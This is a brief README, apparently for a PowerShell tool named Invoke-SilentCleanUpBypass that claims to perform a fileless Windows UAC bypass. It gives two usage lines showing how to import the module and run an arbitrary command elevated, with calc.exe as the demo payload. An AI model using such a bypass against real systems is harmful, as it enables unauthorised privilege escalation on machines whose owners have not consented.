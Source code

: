 # Invoke-SilentCleanUpBypass
Bypass UAC fileless
## Usage
* `import-module Invoke-SilentCleanUpBypass.ps1`  
* `Invoke-SilentCleanUpBypass -Command "powershell -c calc.exe"`  
